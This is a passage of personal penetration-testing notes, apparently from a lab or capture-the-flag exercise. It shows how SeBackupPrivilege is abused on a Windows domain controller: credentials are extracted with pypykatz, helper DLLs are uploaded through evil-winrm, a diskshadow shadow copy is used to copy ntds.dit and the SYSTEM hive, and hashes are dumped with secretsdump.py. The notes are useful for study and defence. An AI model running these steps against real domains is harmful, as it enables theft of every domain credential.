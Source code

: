 extract with pypykatz
![image](https://user-images.githubusercontent.com/83407557/186451248-d2298e86-2931-4470-99a8-aa0105c108e2.png)

profit

### 5.2 **DC** SeBackupPrivilege and SeRestorePrivilege

Get these DLLS:(https://github.com/giuliano108/SeBackupPrivilege)
Use evil-winrm upload on them. Then import with powershell:
(note to self! these files are all saved locally and have been converted to dos)
```ps
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

Then can use the command `Copy-FileSeBackupPrivilege path-to-target-file path-copy` in this case to copy ntds.dit (the domain database that will have the creds for the entire domain)

But we can't because it is being used by another process. So we shadow copy:

Save commands to perform shadowcopy

![image](https://user-images.githubusercontent.com/83407557/186457698-1078bc14-8a0e-42a9-aa36-bda2a56fa64f.png)

convert to dos format
![image](https://user-images.githubusercontent.com/83407557/186457782-4df90581-9e54-4529-b3b7-599ef96fb407.png)

upload copy.txt
![image](https://user-images.githubusercontent.com/83407557/186457863-6c4fc3a1-e4a6-42f0-b380-2aef54330909.png)

Use the diskshadow util with copy.txt as a script arguemnet:

`diskshadow /s copy.txt`

![image](https://user-images.githubusercontent.com/83407557/186458483-77899e1f-cddd-4a64-8e95-84b6bb1a2fe0.png)

This will "shadow copy" c drive into a newly created x drive (since it isn't running it can be copied)

copying ntds.dit

![image](https://user-images.githubusercontent.com/83407557/186458780-5bb76fde-a07c-4822-be56-8859e25231a9.png)

copying system.back

![image](https://user-images.githubusercontent.com/83407557/186459034-7a1ccf47-db9c-4b0b-a4ac-7f1819391735.png)

Pull hashes with secretsdump.py after downloading

![image](https://user-images.githubusercontent.com/83407557/186459354-40ebad03-2ad8-4faf-992b-5824209ee218.png)

Profit


![image](https://user-images.githubusercontent.com/83407557/186459476-c360fa7d-7b5b-4be6-9130-2f4b0e3485e6.png)
